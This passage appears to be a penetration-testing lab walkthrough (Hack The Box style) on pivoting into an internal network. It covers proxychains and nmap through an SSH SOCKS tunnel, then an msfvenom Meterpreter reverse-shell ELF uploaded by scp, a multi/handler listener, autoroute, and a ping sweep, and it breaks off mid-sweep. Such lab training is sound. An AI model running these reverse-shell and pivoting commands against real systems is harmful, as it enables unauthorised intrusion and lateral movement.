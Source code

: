         We can confirm that the dynamic port forward is set up using Netstat 

        $ netstat -antp | grep 8081

        Next, we need to modify the /etc/proxychains.conf to use the port we specified with our dynamic port forwarding command (8081 here).

        Gkaranikas@htb[/htb]$ grep socks4 /etc/proxychains.conf 

        
        #	 	socks4	192.168.1.49	1080
        #       proxy types: http, socks4, socks5
        socks4 	127.0.0.1 8081

        Next, we can use Nmap with Proxychains to scan the dmz01 host on its' second NIC, with the IP address 172.16.8.120 to ensure everything is set up correctly.

        $ proxychains nmap -sT -p 21,22,80,8080 172.16.8.120



                        //Setting Up Pivoting - Metasploit

        
        Alternatively, we can set up our pivoting using Metasploit

        First, generate a reverse shell in Elf format using msfvenom.

        $ msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.14.15 LPORT=443 -f elf > shell.elf

        Next, transfer the host to the target. Since we have SSH, we can upload it to the target using SCP.

        Gkaranikas@htb[/htb]$ scp -i dmz01_key shell.elf root@10.129.203.111:/tmp

        Now, we'll set up the Metasploit exploit/multi/handler.

        Execute the shell.elf file on the target system

        If all goes as planned, we'll catch the Meterpreter shell using the multi/handler, and then we can set up routes.

        Next, we can set up routing using the post/multi/manage/autoroute module.

        [msf](Jobs:0 Agents:1) exploit(multi/handler) >> use post/multi/manage/autoroute 

        [msf](Jobs:0 Agents:1) post(multi/manage/autoroute) >> set SESSION 1

        [msf](Jobs:0 Agents:1) post(multi/manage/autoroute) >> set subnet 172.16.8.0

        [msf](Jobs:0 Agents:1) post(multi/manage/autoroute) >> run

        
        
        -Host Discovery - 172.16.8.0/23 Subnet - Metasploit


        [msf](Jobs:0 Agents:1) post(multi/manage/autoroute) >> use post/multi/gather/ping_sweep

        [msf](Jobs:0 Agents:1) post(multi/gather/ping_sweep) >> set rhosts 172.16.8.0/23

        [msf](Jobs:0 Agents:1) post(multi/gather/ping_sweep) >> set SESSION 1
